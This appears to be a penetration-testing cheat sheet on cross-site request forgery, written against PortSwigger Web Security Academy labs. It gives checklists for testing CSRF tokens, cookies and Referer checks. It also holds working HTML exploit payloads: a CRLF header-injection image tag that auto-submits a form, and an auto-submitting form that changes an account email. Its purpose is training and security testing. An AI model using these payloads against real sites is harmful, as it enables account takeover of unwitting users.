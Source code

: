 For a CSRF attack to be possible, three key conditions must be in place:
```
1. A relevant action.
2. Cookie-based session handling.
3. No unpredictable request parameters.
```
### Testing CSRF Token.
```
1. Remove CSRF parameter/token and see if application accepts it.
2. Change request method POST to GET.
3. Exchange csrf token with another user.
```
### Testing CSRF token and CSRF Cookies.
____
#### Check if CSRF token is tied to the CSRF cookie.
```
1. Submit an invalid CSRF token.
2. Submit a valid CSRF token from another user.
3. Submit a valid CSRF token and CSRF cookie from another user.
4. In uplicated token cookie try to assign same random value in token+cookie.
```
### Exploitation
To exploit this CSRF token+cookie mechanism, we need to perform 2 things.
```
1. Inject a CSRF cookie in user's session. (HTTP Header injection)
2. Send a CSRF attack to victim.
```
#### Exploit
```html
<img src="https://0a5000e9036c9fa3820d15c300a500d4.web-security-academy.net/?search=asdasfa%0d%0aSet-Cookie:%20csrf=testing;%20SameSite=None" onerror="document.forms[0].submit()">
```
### Testing Referer Header for CSRF attack
```
1. Remove Refere Header and see if it works.
2. Check which portion of referrer header is the application validating.
Ex >> Referer:  https://attacker.com/?vulnerable-web.net
                http://vulnerable-website.com.attacker-website.com/csrf-attack
```
#### Exploit for case 1
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
<head>
<meta name="referrer" content="no-referrer">
</head>
  <body>
    <form action="https://0ac3007703f51dc881598ea300940055.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked&#64;a&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
### SameSite Lax Bypass
```
1. Change method POST to GET.
2. Via cookie refresh
```
